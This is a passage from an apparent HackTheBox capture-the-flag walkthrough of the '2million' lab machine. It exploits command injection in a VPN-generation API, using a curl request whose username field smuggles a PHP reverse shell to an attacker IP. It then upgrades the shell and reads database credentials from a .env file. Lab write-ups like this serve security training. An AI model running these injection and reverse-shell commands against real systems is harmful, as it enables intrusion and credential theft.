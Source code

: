 <p>Let's go over how it works. Let's hypothetically suggest that the server is running this piece of code to generate the ovpn file:</p>

<pre>
&lt;?php system("vpn-create --user=$username"); ?&gt;
</pre>

<p>$username is specified using our JSON construct. Thus, when we send our payload the following gets executed:

<pre>
system("vpn-create --user=Aion; id;)
</pre>
<p>Keep in mind that everything in system is interpreted and executed as a system command. Therefore if we close the first command (to generate the vpn file) with ";". Then we can inject a second command which is also between the parenthesis of system(). Subsequently, it will get executed as a system command. Let's generate a reverse shell now! First, open a netcat listener:</p>

<pre>
nc -lnvp 9000
</pre>

<p>Then, execute the following curl command (Trick for escaping of characters: Always wrap the full -d JSON in double quotes, and escape internal quotes and variables properly with \):</p>

<pre>
curl -X POST http://2million.htb/api/v1/admin/vpn/generate \
  -H "Cookie: PHPSESSID=gahs33mmu3k93lsgqndc69d7b1" \
  -H "Content-Type: application/json" \
  -d "{\"username\":\"Aion; php -r '\$sock=fsockopen(\\\"10.10.14.144\\\",9000);exec(\\\"/bin/sh -i <&3 >&3 2>&3\\\");';\"}"
</pre>

<p> Let's upgrade our newly received reverse shell!</p>

<pre>
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
stty raw -echo
fg
export TERM=xterm-256color
</pre>
<h2>Step 5: Lateral privilege escalation to admin</h2>

<p>in the directory of our current user, we see a Database.php script. I opened it hoping there would be credentials in it for the admin user. However, this wasn't the case. After some further exploration i noticed a .env file in the directory. Could it be that the password is saved there instead of in the .php script? </p>

<pre>
cat .env 
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
</pre>
